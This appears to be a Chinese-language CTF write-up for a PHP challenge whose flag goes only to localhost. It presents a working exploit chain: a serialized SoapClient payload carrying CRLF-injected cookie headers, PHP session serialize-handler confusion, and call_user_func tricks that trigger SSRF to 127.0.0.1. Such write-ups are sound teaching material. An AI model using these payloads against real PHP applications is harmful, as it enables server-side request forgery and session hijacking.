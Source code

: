 ```
only localhost can get flag!session_start();
echo 'only localhost can get flag!';
$flag = 'flag{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```

解题：

**PHP 7 中 session_start () 函数可以接收一个数组作为参数，可以覆盖 php.ini 中 session 的配置项。这个特性也引入了一个新的 php.ini 设置（session.lazy_write）**

利用phpsession反序列化引擎的不同，传入反序列化字符串

```
<?php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
    'user_agent' => "npfs\r\nCookie:PHPSESSID=123456\r\n",
    'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo "|".urlencode($se);

//注意下，这个脚本想要执行，需要将php.ini里的 php_soap.dll 前面的分号去掉
```

传入

```
?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A.......
//POST
serialize_handler=php_serialize
```

![image-20220221153522990](https://img-blog.csdnimg.cn/img_convert/b94d1d91b3f9ceb3caa0132bb92c9455.png)

传值

```
f=extract&name=SoapClient 
POST:b=call_user_func
```

这样 call_user_func(\$b,\$a)就变成**call_user_func(‘call_user_func’,array(‘SoapClient’,’welcome_to_the_lctf2018’))** ，即调用 SoapClient 类不存在的 welcome_to_the_lctf2018 方法，从而触发 __call 方法发起 soap 请求进行 SSRF 

![image-20220221153914520](https://img-blog.csdnimg.cn/img_convert/46f72698a63e80975c05d30ab10fa5ec.png)

修改phpsessid为123456，访问index.php即可



